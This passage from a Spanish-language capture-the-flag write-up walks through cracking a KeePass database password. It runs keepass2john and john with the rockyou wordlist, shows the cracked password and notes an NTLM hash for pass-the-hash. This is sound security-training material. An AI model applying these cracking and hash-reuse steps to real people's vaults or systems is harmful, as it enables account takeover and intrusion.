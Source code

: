 Como tiene `contraseña` vamos a usar `keepas2john` y nos vamos a `crear` un `archivo` llamado `hash` con el output

```
# keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

Rompemos el `hash` con `john` y obtenemos la `contraseña`

```
# john -w:rockyou.txt hash
Created directory: /home/justice-reaper/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)     
1g 0:00:00:20 DONE (2024-07-18 13:18) 0.04873g/s 2679p/s 2679c/s 2679C/s nick18..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Con esta contraseña accedemos al archivo `.kdbx`

![](/assets/img/Jeeves/image_6.png)

En `Backup stuff` hay un hash `NTLM` el cual podemos usar para hacer `Pass the hash`, para profundizar en el tema recomiendo este `blog` [https://deephacking.tech/que-es-y-por-que-funciona-pass-the-hash-autenticacion-ntlm/#que-es-pass-the-hash](https://deephacking.tech/que-es-y-por-que-funciona-pass-the-hash-autenticacion-ntlm/#que-es-pass-the-hash)
